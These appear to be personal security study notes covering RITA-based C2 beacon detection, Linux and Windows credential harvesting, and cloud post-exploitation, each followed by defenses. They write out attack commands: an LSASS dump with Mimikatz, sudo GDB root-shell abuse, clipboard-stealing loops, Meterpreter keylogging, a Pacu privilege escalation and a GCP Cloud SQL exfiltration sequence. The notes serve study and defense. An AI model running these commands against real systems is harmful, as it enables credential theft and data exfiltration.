

## RITA:

attackers have been learning  and evading detection now they can easily evade IDS tools, The Real Intelligence Threat Analytics (RITA) is a free open source solution that help identify attackers C2 using statistical anomaly analysis, it docent rely on packet payload inspection like normal IDS , it looks for signs or network activity that correspond to patterns used by C2 tools. its used to offline assessment of network activity, using logs generated by Zeek, it provides the best results with logging data that 24 hours or more, its an effective threat hunting tool to aid analysts in identifying and reacting to compromises in a network. 

### Fundamentally Different Network Behavior:

Attackers don't behave like normal networks dose and here are some of the most notable differences 

long connection duration between the C2 and the victim end point 

lost of consistent data sizes in the packers used for heartbeat checking 

consistent packets intervals (within a C2 sleep timer)

consistent packet intervals within a jitter matric (skew)

a total session size or byte count consistency 

RITA use all of these and other characteristics to identify attackers C2 in an organization, its not specific for any C2 framework but rather works for all. 

### basic use of RITA:

to start we first need to make a directory to store the Zeek data, then we use this command form Zeek cli `zeek -Cr ~/big-capture.pcap`where the `-r` is to read the captured file and the `-C` is to ignore the TCP checksum. then we import Zeeks data into RITA with the DB named my network using this command `rita import . mynetwork`, and finally generating the report with this command `rita html-report mynetwork` .

the generated HTML report shows different analysis functionalities like:

- Beacons: Regular timing between connections / packets
- Strobes: High packet counts in short period of time sent without stealth
- DNS: Exploded DNS analysis
- Deny List Sources (BL Source IPs): Connections from deny list IP addresses
- Deny List Destinations (BL Dest. IPs): Connections from deny list IP addresses
- Deny List Hostnames (BL Hostnames): Hostnames of deny list IP addresses
- Long Connections: Long connection times for TCP-established sessions
- User Agents: Web browser User Agent statistics



we can also examine specific RITA analysis functions by calling it directly like `rita show-beacons database-name`, also you can add `-H` flag to get human readable table.

### Beacon Analysis:

RITA is a threat hunting tool intended to help analysts unlike IDS which characterize a specific attack on the network. RITA doesn't identify a specific C2 or threat group. 

beaconing is a characteristic of C2 frameworks where a compromised system reaches out for the controlling server withe periodic frequency. the  beacon packets are like waiting for orders  from the attackers server , so the client will do as told. such as downloading  a file or executing a command, many C2 frame works utilize beacon packets in there network implementation with regular frequencies like every minute or 5 or even 10.  the beacon interval (the time between beacon packets) is generally short in nature.

RITA uses the characteristic of beaconing to identify threat, by identifying presence of a Score value near or at 1, this value indicates the regularity in beacon interval timing for the duration of the network traffic, a score of 1 indicates a perfect repletion of packet activity between the source and the destination endpoint.

### Long Connections:

normally client devices will connect to another endpoint, exchange data, then disconnect , However some C2 frameworks like Meterpreter will establish and keep a TCP session for extended periods of time. that another way to characterize threats in the network. 

in this example using this command `rita show-long-connections -H mynetwork | head -15`  we see several internal hosts connecting to different targets in the internet using TCP/443 with a very long connection time.



### DNS Analysis:

RITA also have have DNS analysis that reveals the presence of DNS tunneling tools such as DNSCat2, the output of the DNS analysis revels, Query domain from the internal host, the number of unique subdomains associated with the host, and the number of times the internal system queried the total number of subdomains. normally the number of sub domains for a given domain is reactively a small number at most hundreds. not much exceeds this, to communicate through DNS tunneling and to avoid DNS cachsingDNSCat2 another tools will generate many unique subdomains for the c2 channel. so when you see a lot of sub domains like in this example this can indicates a compromission the network.



### a Threat Hunting Tool:

RITA aids analysts not a tool that provides a list of compromised host that you should involve in your incident response process. instead use RITA as a starting point to you analysis which can  help and gaud you. use the IP’s you found and do some OSINT use 3rb parti ls like SHODAN to help you. you can black list or whitelist  a host in the config.yaml file.



## Data Collection:

for many attackers data collection may be the ultimate goal behind there attack stealing secrets intellectual data, financial records, credit cards,… 

### Linux password Harvesting:

beyond the already known password hash info stored in the `etc/shdow` file attackers find passwords disclosed in other locations on the file system or the output of command-line arguments.  several things an attacker can do is shown in the image below the password disclosed in the process list and file system location may reveal local passwords but it can also reveal other passwords. Ex. a common location attackers loot at it the`.bash_history` file , but why cuz users may supply a password as a command line argument like this command `mysql -u root -prootDBpassword`for the mysql BD. most of these commands shown here may require root privilege.



### Sudo Privileges:

one opportunity to escalate privileges on a Linux system to check the configuration of the sudo command, the sudo allows a user to run a command with the privileges of another user, often the root user. an admin can configure sudo to allow a user to any command or a specific set of commands. since an admin wants to grant user access or run a specific tool with extra privileges. an attacker can enumerate the privilege allocated to the user by running `sudo -l`, like in this Ex. the user `minyawy`is permitted to run `GNU`debugger. as root this is common since it may be required for the developers to troubleshoot a process that is running as root.  this is an opportunity for attackers as they can abuse this selected sudo privilege, so in this example GDB have a shell command which will the attacker a sudo shell just like that.

### Windows Passwords: Mimikatz

Mimikatz is a well-know tool for extracting passwords and passwords hash from windows. since its a well know tool used by attackers so Microsoft has developed extensive defensive measures to protect against attacks using it.  however Mimikatz doesn't require that it run on The victim , it can also retrieve password info from the process memory of LSASS and other system process to extract passwords. the `Sysinternal` tool `Procdump`can retrieve a memory dump of a named process using this command`.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp`, and its a Microsoft tool so attacker can use it without being caught. Mimikatz can extract passwords from the LSASS process on a victim by supplying the process dump using this command. `sekurlsa::minidump lsass.dmp`. this is used to evade detection, it have a disadvantage or requiring a larger data transfer (the LSASS dump), its an alternative to running Mimikatz in the victim system locally. 

### Password Managers and Clipboard Access:

password mangers offer users many benefits, like automated creation and storage of long complex passwords, so the user doesn't have to memorize them, although its uncommand for password mangers to have vulnerabilities that allows attackers to access the password storage, but they all have a common vulnerability the use of clipboard. 

copying password to clipboard is integrated as a feature, but in Windows and macOS any other process has access to the clipboard data, and also the ability of retrieving  and manipulating the contents, this is an golden opportunity for attackers. as with a simple PowerShell/bash command attackers can copy the data and sent it to a network. using this commands. `PS C:\> $x=""; while($true) { $y=get-clipboard -raw; if ($x -ne $y) { WriteHost $y; $x=$y } }`,`macos~ $ x=""; while true; do y=`pbpaste`; if [ "$x" != "$y" ] ; then echo $y; x=$y; fi; done`

### Meterpreter Keystroke Logging:

Meterpreter framework includes integrated support for keystroke logging. Once an attacker establishes a Meterpreter session, they can run the `keyscan_start` module to start capturing keystroke data. Meterpreter will continue to capture keystrokes for all users (including RDP sessions) until the `keyscan_stop`command is issued. At any time, the attacker can examine the log of keystrokes by running the `keyscan_dump` command.



### Defenses:

network filtering combined with monitoring for unauthorized access attempts. Network monitoring tools can reveal unusual network activity. The Real Intelligence Threat Analytics (RITA) can also be applied as a defense to identify Command & Control (C2) indicators that can reveal compromised systems. endpoint security tools including application trust lists can be used to limit access to built-in and third-party software. This is best applied as a threat hunting mechanism, creating an opportunity to identify compromised systems when attackers attempt to run unauthorized tools. use SRUM data to characterize data transfer tools by app name, which can be valuable to characterize the amount and possible sources of data that is extracted from a compromised system.



## Cloud Spotlight: Cloud Post-Exploitation

we have already seen techniques that allows an attacker to exploit a system, so here we’ll start with the assumption that the attacker have some AWS credentials to start with. 

so following the discovery of credentials, attackers will collect as much info as they can, which can be called a situation report, the table below will show some of the most used commands in enumeration. 

| `aws sts get-caller-identity`  |  Basic access test, identify username for UserId |
| --- | --- |
| `aws ec2 describe-instances` | Enumerate EC2 instances |
| `aws s3 ls`  | List S3 buckets |
| `aws lambda list-functions`  | List Lambda functions |
| `aws iam list-role`  | List roles (permissions) associated with the user |
| `aws iam list-users`  | List other user accounts to target (privesc targets) |
| `aws logs describe-log-group`  | Enumerate log groups (what is being monitored?) |

the AWS STS  is the security token service, a service that allows users to request temporary IAM credentials withe limited privileges. azure also have similar functionalities using the `az` command, and google with `gcloud` and `gsutil` .

### WeirdAAL Enumeration:

while attackers can run commands manually to enumerate basic access, but it gets more complex to enumerate all access premotions, so that why a script like WeirdAAL comes in handy it automates the process of enumerating AWS access privileges and cloud assets, it will use AWS list function if the caller have there access, otherwise it will brute-force access attempts for all known permissions to discover access opportunities granted through the credentials feed in the `.env` file in the same directory, its noisy if the failed access logging is configured through CloudTrail. it also supports the use of different modules like the  `recon_all` module  which will perform reconnaissance using the specified AWS credentials for all known access opportunities (WeirdAAL is updated often as new access privileges are defined in AWS). an attacker can use a specific module to enumerate permissions and access for a target cloud service; get all modules by running `python3 weirdAAL.py -l`

### AzureStealth:

this can be used for Azure but unlike the WeirdAAL this doesn't have an privilege enumeration/ attack capabilities , all this dose it to scan for shadow admin, a shadow admin account is a an account with administrative capabilities without being expressly authorized as an administrator, this can be an attacker crating a backdoor to avoid detection , or a misconfiguration.  so to start using it u will first need to download the script form GitHub then in PowerShell you will have to import the script `Import-Module .\AzureStealth.ps1 -Force`, and now your ready to use all you have to do is run the `Scan-AzureAdmins` command , after the command finishes the results will be saved in a zip file which contain CSV files containing Azure domains list of all enumerated users and a list of admin accounts including the shadow admins.  though this is not designed as an attack tool and intended to be used by defenders , attacker can still lavage it to gather info about the victim.

### GCP Enumerate Permissions:

for Google Compute environments, well be using the enumerate_member_permissions.py from rhinolabs, after we login using `gcloud auth login` 
and get the access token `gcloud auth print-access-token`then run the script feeding it the project name `./enumerate_member_permissions.py -p cryptic-woods-298720`,the script will then ask for an access token to brute-force available permissions, saving the results to a JSON file. 

### Privilege Escalation Attacks:

after logging in with the stolen data attackers then aim to escalate there privilege to gain root access for example in AWS if a help disk account have the  `iam:PutUserPolicy`which helps them to grant access to specific assets, this can be abused as you can grant any one root level access to anything. attacker goal is to enumerate all privileges , and identify opportunities to gain escalated access to cloud resources. This may include cloud-provider policies, but it could also be enumerating custom policies and the potential to abuse them.

### Pacu: AWS Interrogation and Attack Framework

is an AWS interrogation and attack framework later expanded to include Azure and Google Compute platforms , its a modular collection of exploits privilege escalation attacks and data exfiltration functionalities, two useful modules for privilege escalation are `iam__enum_permissions`and `iam__privesc_scan`,

to start Pacu you will run the cli.py script, then import the keys for an AWS user by specifying the profile name, Pacu will read it form the default location for the AWS credentials file for the host OS, then enumerate the current key by running `iam__enum_permissions`,then it will access and exploit ant AMI policy weaknesses by running`iam__privesc_scan`,lets say it finds a policy with `PutUserPolicy`privileges and leverages it to automatically create a new inline policy that grants the user administrator access to the cloud environment.

after privilege escalation attackers gets access to more data resources, This could include cloud storage resources (AWS S3 buckets, Azure containers, GCP buckets, etc.), database instances, or key storage services. also cloud VMs, backups and snapshots. once an attacker escalates their privileges to cloud admin they can access ,content in Google Drive, OneDrive, or email resources. While some resources may be available for direct download, other resources (such as VM snapshots, serverless functions, and key storage services) may require intermediate storage transfer to a bucket, then retrieval from the intermediate storage to the attacker. this will create a better opportunity for defenders to detect such a thing. just like any attacker the data is there final goal 

now lets take a look at steps an attacker takes to obtain data from a Google Compute Cloud SQL target:

1. Using privileged access, the attacker identifies database instance targets by running `gcloud sql instances list`; lets say we got an output of a database named `fm-research`
2. Next the attacker enumerates the database schemas by repeating the command, adding `-i fm-research` to specify the target database instance
3.  The attacker can't download the database directly, so he creates an intermediate bucket, using this command `gsutil mb gs://sqlexfil` 
4. Next the attacker grants the current user write access to the new bucket using this `gsutil acl ch -u jmerckle@falsimentis.com:WRITE gs://sqlexfil`command
5. With the intermediate storage device and the permissions applied, the attacker can export the database instance `fm-research` and the database schema `ai` , `gcloud sql export sql fm-research --database=ai gs://sqlexfil/sqldump.gz`
6.  Once the backup completes, the attacker can download the database backup using `gsutil cp gs://sqlexfil/sqldump.gz .`

and as we saw the attacker did not use any external attack tool he only used official tools by google, for defenders we can spot this kind of attacks just by using Google’s cloud audit logs.

### Microsoft 365 Compliance Search:

if attackers can escalate there privilege to  eDiscovery Manager role (Administrator, compliance officer, or eDiscover manager groups), they can access the data compliance search in O365, which is a feature for auditors to review and report data handling in an organization, this is a super powerful tool as it allows you access to all O365  resources: Outlook, Teams, Skype, SharePoint, OneDrive, etc. attackers can use key words search for files name and type and email keywords. in google there is Google takeout which is similar to this.

### Defenses:

three things to defend correctly 

**Understand Your Infrastructure:** What are the cloud assets? How are user permissions allocated? What are the policies?

**Audit Permissions and Policies:** Are policies sufficiently restrictive? Do users have limited access? Is the Principle of Least Privilege (POLP) sufficiently employed?

**Verify and Monitor Asset Logging:** Are access and change events logged and monitored to detect unauthorized use?

some tools to help with this are: 

**AWS: CloudMapper** 

an open source visualizing tool for AWS and auditing it , to use it you need an account with at least the `job-function/ViewOnlyAccess`privileges, it also require a JSON config file that defines the environment name, AWS account ID, a list of network numbers, then the cloudmapper.py script will take this file and the account name and start to do its magic. 

For Azure, the open-source AzViz tool is a PowerShell module to enumerate and visualize Azure cloud deployments,  and For Google Compute environments, the Google Network Topology tool can visualize the topology of Virtual Private Cloud (VPC) environments.

**ScoutSuite (AWS, GCP, Azure):**

this is a dedicated vulnerability assessment tool for cloud environments, it uses privileged access to preform comprehensive vulnerability assessment, it generates a HTML report and a JSON report.  it supports rules for identifying cloud vulnerabilities in the free toll, the premium includes additional scanning functionalities.

**Cloud Logging:**

how to setup the logging is platform and organization specific, things to keep in mind you should always keep your logging data in a storage bucket owned by a different cloud account, use a write only bucket as an attacker with high privilege can alter the logs if stored locally. 

Cloud logging should include:

- Netflow-style logs to and from cloud endpoints (source and destination, port, protocol, packet count, byte count, start time, finish time)
- Cloud storage access logs (timestamp, requester IP, action, response, response data size)
- All API access attempts for sensitive resources (with status response)
- API request failed messages for non-sensitive resources

use your cloud provider tool for monitoring, Amazon Detective, Azure Sentinel, and GCP Security Command Center all offer valuable features that are designed to work specifically with their logging data which will help with threat hunting and incident response analysis.

and retaining the data for a window between 30-90 days , also consider using inexpensive storage like Amazon Glacier, Azure Archive/Azure Cool Storage, or Google Cloud Storage Archive. 



**done الحمدلله**